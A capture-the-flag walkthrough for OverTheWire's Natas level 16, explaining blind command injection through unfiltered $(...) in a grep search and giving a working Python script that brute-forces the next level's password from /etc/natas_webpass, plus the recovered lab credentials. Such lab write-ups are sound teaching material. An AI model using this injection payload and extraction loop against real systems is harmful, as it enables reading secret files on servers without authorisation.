

# Natas Level 16 → Level 17

### Challenge

**URL: http://natas16.natas.labs.overthewire.org/**

This level features a search tool that passes input to `grep` on a dictionary file. While it filters `;`, `&`, and `|`, it leaves `$` and `()` unfiltered, allowing blind command injection via command substitution. The vulnerable line is: `passthru("grep -i \"$key\" dictionary.txt");`

---

### Walkthrough

1. Because `$(...)` is allowed, we can nest a command inside the `grep` search. Its output becomes part of the dictionary search pattern, so we do not see the command output directly (a blind attack).
2. We can leak the password character by character by checking whether the dictionary search returns any results.
   - Payload structure: `$(grep ^[char] /etc/natas_webpass/natas17)African`
   - If the password starts with the guessed character, the inner `grep` prints that prefix, so the outer `grep` searches `dictionary.txt` for `[password]African`. Since that string is not in the dictionary, the page output is empty.
   - If the guess is wrong, `$(...)` prints nothing, so the outer `grep` searches for `African`, which exists in the dictionary and returns results.

3. Testing every character by hand takes too long, so a Python script automates the empty vs. non-empty output check:

   ```
   import requests
   from string import ascii_letters, digits

   target = "http://natas16.natas.labs.overthewire.org/"
   auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo") # Replace with current password
   chars = ascii_letters + digits
   password = ""

   print("Extracting password...")

   for i in range(32):
       for char in chars:
           payload = f'$(grep ^{password + char} /etc/natas_webpass/natas17)African'
           r = requests.get(target, auth=auth, params={"needle": payload})

           if "African" not in r.text:
               password += char
               print(f"Progress: {password}")
               break

   print(f"Final Password: {password}")
   ```

4. Run the script to test characters `a`, `b`, `c`, ... until `African` disappears from the response and all 32 characters of the `natas17` password are recovered:
     

---

### Credentials Found

- **Username:** `natas17`
- **Password:** `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`
